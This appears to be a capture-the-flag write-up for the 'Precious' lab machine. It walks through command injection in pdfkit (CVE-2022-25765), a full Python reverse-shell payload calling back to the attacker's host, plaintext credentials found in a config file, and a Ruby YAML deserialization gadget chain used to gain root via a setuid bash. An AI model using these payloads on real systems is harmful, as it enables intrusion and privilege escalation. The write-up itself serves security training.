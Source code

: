 

Description

The machine we’ll talk about today is a machine vulnerable to RCE and also to YAML Deserialization attack, I’ll explain my best to do through these 2 vulnerabilities.

# **PORT SCANNING**

```
nmap -sC -sV -oA nmap/result 10.10.11.189
Starting Nmap 7.93 ( <https://nmap.org> ) at 2022-11-27 00:13 CST
Nmap scan report for 10.10.11.189
Host is up (0.084s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to <http://precious.htb/|_http-server-header:> nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 10.39 seconds
```

We have 2 ports open ⇒ 80 and 22

http-title revealse we are redirected to [](http://precious.htb)[http://precious.htb](http://precious.htb) ⇒ Don’t forget to add it to **/etc/hosts** file.

# HTTP Navigation

Navigating to [](http://precious.htb)[http://precious.htb](http://precious.htb) we can see a website where we can convert a web page to PDF file.

![[/assets/images/precious/precious-web-converter.png]]

I then tried to see how works the website.

Starting my webserver with python module :

```jsx
# python3 -m http.server 80
```

Now I can enter my “webpage” address and download the PDF generated.

Analyzing the PDF file with **EXIFTOOL** :

![[/assets/images/precious/precious-pdf-generated.png]]

The PDF is generated by **pdfkit v0.8.6** ⇒ search on Google :

we directly find that there is a vuln linked to **CVE-2022-25765**

After reading and understand some **PoC**. We understand here that we can add a random **GET** parameter after the link entered in the converter and inject a command between `backticks`

```
http://10.10.XX.XX/?name=%20`id`
```

Let's try that and see what's happening : 


![[/assets/images/precious/id-command-injected.png]]

Here's we can see that we have the command executed and reflected in the PDF Title ! 

We can use a Python3 reverse shell payload found on : 
https://gtfobins.github.io/

```python
http://10.10.XX.XX/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.XX.XX",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```


```js
nc -nvlp 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.11.189.
Ncat: Connection from 10.10.11.189:42830.
$ ls
ls
app  config  config.ru  Gemfile  Gemfile.lock  pdf  public
$ cd /home/ruby
cd /home/ruby
$ ls -al
ls -al
total 28
drwxr-xr-x 4 ruby ruby 4096 Nov 26 14:36 .
drwxr-xr-x 4 root root 4096 Oct 26 08:28 ..
lrwxrwxrwx 1 root root    9 Oct 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .bundle
drwxr-xr-x 4 ruby ruby 4096 Nov 26 19:56 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
```

I found a directory called `.bundle` and found a file named `config`

```js
-r-xr-xr-x 1 root ruby   62 Sep 26 05:04 config
$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Let's try these new credentials ! 


# Privilege Escalation

```js
-bash-5.1$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```


Analyzing the file Ruby file there is `YAML.load` function is vulnerable to `YAML Deserialization Attack`.

PoC available here : 

https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml


Now we'll download the file in `/home/henry` directory and try to execute it : 

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
```

now let's change the id command to something more interesting : 

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve
```

```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
```

```bash
henry@precious:~$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

And we got the `root.txt` and `user.txt` files.

```bash
henry@precious:~$ /bin/bash -p
bash-5.1# cd /root
bash-5.1# cat root.txt; cat /home/henry/user.txt
3e65f5f15a60993e469cec52af3141c7
56c36a10c17db0478af95c8e10f8f733
```

